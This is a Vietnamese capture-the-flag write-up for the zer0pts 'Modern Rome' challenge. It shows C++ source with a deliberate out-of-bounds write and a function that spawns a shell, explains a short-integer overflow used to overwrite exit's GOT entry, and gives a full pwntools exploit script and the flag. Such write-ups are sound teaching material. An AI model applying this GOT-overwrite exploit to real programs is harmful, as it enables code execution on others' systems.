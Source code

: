 # Modern Rome

Đề cung cấp cho ta file binary và source code.

Kiểm tra file binary

Source code được viết ở ngôn ngữ c++.

```c++
#include <string>
#include <iostream>

short buf[10];

void win() {
  std::system("/bin/sh");
}

short readroman(){
  short res = 0;
  std::string s;

  std::cin >> s;
  auto it = s.crbegin();

  int b = 1;
  for (auto c: "IXCM") {
    int cnt = 0;
    while (cnt < 9 && it != s.crend() && *it == c) {
      it++;
      cnt++;
    }
    res += b * cnt;
    b *= 10;
  }

  return res;
}

int main() {
  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "ind: ";
  int ind = readroman();
  std::cout << "val: ";
  int val = readroman();

  std::cout << "buf[" << ind << "] = " << val << std::endl;
  buf[ind] = val;

  std::exit(0);
}

```

Phân tích source, ta thấy:

  - Hàm `win()` gọi cho ta shell.

  - Ở cuối hàm `main()` có dòng `buf[ind] = val;` `buf` là một mảng thuộc phân vùng `bss`, `ind`, `val` có kiểu dữ liệu int => vì không có kiểm tra điều kiện nên ta có thể dùng ghi đè vào 2 byte cuối của `exit.got`, lúc ban đầu `exit.got` sẽ có giá trị là `exit.plt + 4`, đè 2 byte để chuyển về hàm `win()`. Lúc sau khi chương trình gọi `exit()` ở cuối hàm `main()`, ta chạy được hàm `win()`
  
  - Hàm `readtoman()` đọc một chuỗi và chuyển về một số kiểu dữ liệu short (2 bytes), công thức chuyển là `‘\x00’ * a + ‘M’ * b + ‘C’ * c + ‘X’ * d + ‘I’ * e -> abcde`. Nếu chỉ được phép ghi đè 4 số, số tối đa của ta sẽ là 9999 < 32767 => `readtoman()` trả về số dương. Tuy nhiên vòng for sẽ lặp thêm 1 lần null byte, giúp cho ta ghi được số thứ 5, lúc này ta có thể overflow biến res về số âm. 
`(short)(-372) = 0xfe8c = 65164`.

  - Sau đó địa chỉ hàm `win()` là `0x4012F6`, giá trị ban đầu của `exit.got` là `0x4011A4`, ta sẽ đè 2 byte `0x12F6 (4854)` vào 2 byte cuối `exit.got`. 
  
## Exploit:

```python
#
#	***************************
#	* Pwning exploit template *
#	* Arthor: Cobra           *
#	***************************
#

from pwn import *
import sys

def conn():
	local = 0
	debug = 0

	for arg in sys.argv[1:]:
		if arg in ('-h', '--help'):
			print('Usage: python ' + sys.argv[0] + ' <option> ...')
			print('Option:')
			print('        -h, --help:     Show help')
			print('        -l, --local:    Running on local')
			print('        -d, --debug:    Use gdb auto attach')
			exit(0)
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		s = process('./chall')
		if debug:
			gdb.attach(s, gdbscript='''
				b*0x0000000000401571
				b*0x00000000004014fd
				b*0x00000000004014e1
				c
			''')
		else:
			raw_input('DEBUG')
	else:
		s = remote('pwn1.ctf.zer0pts.com', 9000)

	return s

s = conn()

elf = ELF('chall')

s.sendlineafter(b'ind: ', b'\x00' * 6 + b'M' * 5 + b'C' * 1 + b'X' * 6 + b'I' * 4)
s.sendlineafter(b'val: ', b'M' * 4 + b'C' * 8 + b'X' * 5 + b'I' * 4)

s.interactive()
```

Flag: `zer0pts{R0me_w1ll_3x1st_a5_1on9_4s_th3_Col1s3um_d0es}`
